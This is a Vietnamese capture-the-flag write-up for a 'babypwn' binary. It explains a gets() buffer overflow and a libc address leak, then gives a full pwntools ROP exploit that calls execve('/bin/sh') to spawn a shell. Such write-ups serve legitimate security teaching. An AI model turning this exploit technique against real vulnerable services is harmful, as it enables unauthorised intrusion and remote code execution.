




**1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra

```
babypwn: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9bb8abcaaf8cb2ef7a1443b9175a22f4e4fad9ca, for GNU/Linux 4.4.0, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  vuln();
  return 0;
}
```

Hàm ```vuln```

```
__int64 vuln()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  printf("There you go, libc leak: %p", &printf);
  gets(v1);
  return 0LL;
}
```

Chương trình in ra địa chỉ của hàm ```printf``` -> từ đó có thể leak được địa chỉ libc

Chương trình sử dụng hàm ```gets``` nên có lỗi bof

**2. Ý tưởng**

- Lấy địa chỉ leak ra để tính được địa chỉ libc
- Tận dụng lỗi bof để ROP đến hàm thực thi

**3. Khai thác**

Đầu tiên là lưu vào địa chỉ leak ra được:

```
r.recvuntil(b'leak: ')
libc_leak = r.recv(14).decode()
log.info("leak : " + libc_leak)
libc_leak = int(libc_leak, 16)
```



Như vậy đã lấy được địa chỉ hàm ```printf```. Dựa vào đó để tính toán địa chỉ libc



Và cũng đã tính được địa chỉ libc. 

```
   0x00005572f4cd91c6 <+38>:    lea    rax,[rbp-0x40]
   0x00005572f4cd91ca <+42>:    mov    rdi,rax
   0x00005572f4cd91cd <+45>:    mov    eax,0x0
   0x00005572f4cd91d2 <+50>:    call   0x5572f4cd9040 <gets@plt>
```  

Ta thấy biến cần nhập cách rbp 0x40 byte. Vậy biến nhập vào cách ret 0x40 + 0x8 byte. Vậy mình cần nhập 0x40 + 0x8 byte rác để tràn tới ret.

Tiếp theo sử dụng ```ROPgadget``` để tìm kiếm các thanh ghi phù hợp trong file ```libc.so.6``` để tạo hàm thực thi. ta kiếm được các hàm như sau:

```
pop_rax = libc.address + 0x0000000000045eb0
pop_rdi = libc.address+ 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rdx = libc.address + 0x000000000011f497
syscall = libc.address + 0x0000000000029db4
```

Như vậy đã kiếm đủ điều kiện cần thiết. Tiếp theo chỉ cần chèn chúng với giá trị cần thiết vào sau ret. Lưu ý khi pop rdx thì nó có pop cả r10 nên cần gán 2 giá trị vào.

```
payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(pop_rdx) + p64(0) + p64(0)
payload += p64(syscall)
```

Đặt breakpoint ở ret xem đã return về những câu lệnh ret mình cần chưa.



Như vậy đã trả về các câu lệnh mình muốn.

Ta có script như sau:

```
from pwn import *

exe = ELF('babypwn', checksec = False)
r = process(exe.path)
libc = ELF('libc.so.6', checksec = False)
#r = remote("babypwn.pwn.midnightflag.fr", 16000)

r.recvuntil(b'leak: ')
libc_leak = r.recv(14).decode()
log.info("leak : " + libc_leak)
libc_leak = int(libc_leak, 16)
libc.address = libc_leak - 0x60770
log.info("Libc: " + hex(libc.address))

pop_rax = libc.address + 0x0000000000045eb0
pop_rdi = libc.address+ 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rdx = libc.address + 0x000000000011f497
syscall = libc.address + 0x0000000000029db4

payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(pop_rdx) + p64(0) + p64(0)
payload += p64(syscall)

#input()
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

Vì giải đã kết thúc nên kết nối qua local.


